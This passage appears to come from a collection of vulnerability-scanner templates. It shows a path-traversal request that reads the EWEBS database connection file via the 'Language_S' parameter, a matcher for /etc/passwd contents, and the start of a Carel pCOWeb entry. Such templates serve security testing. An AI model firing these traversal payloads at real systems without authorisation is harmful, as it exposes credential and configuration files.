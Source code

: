 **Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# EWEBS - Local File Inclusion

## Description

- EWEBS is vulnerable to local file inclusion and allows remote attackers to disclose the content of locally stored files via the 'Language_S' parameter supplied to the 'casmain.xgi' endpoint.
- severity - high
- tags - ewebs,lfi

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/casmain.xgi
  - Language_S=../../Data/CONFIG/CasDbCnn.dat

### Matchers

**Type - word**

- words
  1. [Edition]
  2. [LocalInfo]
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# Carel pCOWeb HVAC BACnet Gateway 2.1.0 - Local File Inclusion

## Description
